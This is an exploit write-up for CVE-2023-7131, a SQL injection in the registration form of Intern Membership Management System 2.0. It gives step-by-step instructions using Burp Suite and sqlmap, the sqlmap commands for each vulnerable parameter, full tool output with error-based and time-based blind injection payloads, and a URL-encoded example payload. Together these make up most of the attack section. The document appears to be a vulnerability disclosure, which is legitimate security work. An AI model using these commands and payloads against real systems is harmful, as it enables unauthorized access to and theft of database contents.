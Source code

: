 # CVE-2023-7131_Intern_Membership_Management_System-SQL-Injection
+ **Exploit Title:** CVE-2023-7131_Intern_Membership_Management_System-SQL-Injection
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/intern-membership-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/INTERN_MEMBERSHIP_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.5, Apache 2.4.53
+ **CVE:** CVE-2023-7131

## References: 
+ **CVE-2023-7131:** https://vuldb.com/?id.249134
+ https://www.cve.org/CVERecord?id=CVE-2023-7131
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7131
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7131

## Description:
Intern Membership Management System 2.0 allows SQL Injection via parameters 'userName', 'firstName', 'lastName', and 'gender' in "/intern/user_registration/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the user registration page: "http://localhost/intern/user_registration/"
+ Fill the form and click 'Register' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'userName', 'firstName', 'lastName', and 'gender' parameters to dump the database. 
+ `python sqlmap.py -r r.txt -p userName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
[23:08:01] [INFO] parsing HTTP request from 'r.txt'
[23:08:02] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: userName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test'||(SELECT 0x41516658 WHERE 5902=5902 AND (SELECT 6279 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(6279=6279,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test'||(SELECT 0x4b4f7742 WHERE 6652=6652 AND (SELECT 1818 FROM (SELECT(SLEEP(5)))EDSH))||'&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:08:03] [INFO] testing MySQL
[23:08:03] [INFO] confirming MySQL
[23:08:03] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.5, Apache 2.4.53
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[23:08:03] [INFO] fetching current database
[23:08:03] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p firstName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
[23:10:30] [INFO] parsing HTTP request from 'r.txt'
[23:10:32] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: firstName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test'||(SELECT 0x72666763 WHERE 6198=6198 AND (SELECT 3585 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(3585=3585,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test'||(SELECT 0x4c58726c WHERE 5649=5649 AND (SELECT 7272 FROM (SELECT(SLEEP(5)))edvW))||'&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:10:32] [INFO] testing MySQL
[23:10:33] [INFO] confirming MySQL
[23:10:33] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.5
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[23:10:33] [INFO] fetching current database
[23:10:33] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p lastName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
---
Parameter: lastName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test&lastName=test'||(SELECT 0x75425548 WHERE 3456=3456 AND (SELECT 4050 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(4050=4050,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test&lastName=test'||(SELECT 0x49745477 WHERE 1875=1875 AND (SELECT 8777 FROM (SELECT(SLEEP(5)))cVgI))||'&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:13:41] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.5
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:13:41] [INFO] fetching current database
[23:13:41] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p gender --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
---
Parameter: gender (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male'||(SELECT 0x73574b73 WHERE 9608=9608 AND (SELECT 9046 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(9046=9046,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male'||(SELECT 0x67657950 WHERE 3206=3206 AND (SELECT 2290 FROM (SELECT(SLEEP(5)))OKGZ))||'&terms=on&register-user=Register
---
[23:17:12] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.5, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:17:12] [INFO] fetching current database
[23:17:12] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ current database: `db_issm`
![1_sqlmap](https://github.com/h4md153v63n/CVEs/assets/5091265/ab492034-196a-4f84-b0d0-3fbbbc25ae87)

+ Example payload:
```
-1%27+and+6%3d3+or+1%3d1%2b(SELECT+1+and+ROW(1%2c1)%3e(SELECT+COUNT(*)%2cCONCAT(CHAR(95)%2cCHAR(33)%2cCHAR(64)%2cCHAR(52)%2cCHAR(100)%2cCHAR(105)%2cCHAR(108)%2cCHAR(101)%2cCHAR(109)%2cCHAR(109)%2cCHAR(97)%2c0x3a%2cFLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.COLLATIONS+GROUP+BY+x)a)%2b%27
```
![1_burp](https://github.com/h4md153v63n/CVEs/assets/5091265/910b1684-ab8a-4da2-874f-ff75c38eb727)
